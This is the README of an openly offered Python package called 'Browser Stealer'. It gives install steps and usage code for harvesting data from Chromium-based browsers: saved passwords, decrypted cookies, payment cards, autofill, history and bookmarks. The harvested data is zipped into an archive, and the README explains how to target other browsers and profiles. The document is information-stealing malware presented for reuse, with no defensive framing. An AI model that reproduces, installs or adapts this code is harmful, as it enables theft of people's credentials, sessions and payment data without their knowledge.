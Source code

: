 <h1 align="center">Browser Stealer<h1>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/last-commit/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/stars/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/forks/Josakko/browser_stealer" </a>
</p>

<h4 align="center">
  <span style="color: #fff; font-weight: bold;">Browser Stealer</span>
  <span style="color: #fff; font-weight: normal;">v1.0.0</span>
</h4>

```
pip install browser_stealer
```

## Installation

Since module got removed from pypi you have to install it manually, to install it download `.whl` file (`browser_stealer.whl`) from [here](https://github.com/Josakko/browser_stealer/releases), next open terminal on the location where you downloaded `browser_stealer.whl` and run following command:

```
pip install browser_stealer.whl
```

After running the command you can import and use browser stealer in your own projects!

## Code Examples

Simple example for stealing data from profile "Default" of browsers: Chromium, Chrome, Opera, Opera GX, Brave, Edge
```py
import browser_stealer

browser_stealer.run()
```

Or if you want to add your own chromium based browser or other profiles for existing ones:

```py
import browser_stealer


def MyBrowser():
    browser_stealer.fetch_passwords(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Login Data", r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State")
    browser_stealer.decrypt_fetch_cookies(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Network\Cookies", r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State")
    browser_stealer.fetch_cookies(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Network\Cookies")
    browser_stealer.fetch_history(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\History")
    browser_stealer.fetch_downloads(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\History")
    browser_stealer.fetch_bookmarks(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Bookmarks")
    browser_stealer.fetch_payment(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Web Data", r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State")
    browser_stealer.fetch_autofill(r"AppData\Local\%FOLDER%\%FOLDER%e\User Data\%PROFILE%\Web Data")
    
    browser_stealer.zip("MyBrowser.zip", ["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])
    browser_stealer.delete_files(["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])

MyBrowser()
```

In this example you have to replace `%FOLDER%\%FOLDER%` with one for your specific browser, so for example for chrome you would use `Google\Chrome`, and also replace `%PROFILE%` whit profile you want to target so for example you could replace it with `Default` if you want to target Default profile

## Need Help?

If you need help contact me on my [discord server](https:\\discord.gg\xgET5epJE6) or create [issue](https:\\github.com\Josakko\DiscordReverseShell\issues).

## Contributors

Big thanks to all of the amazing people (only me) who have helped by contributing to this project!
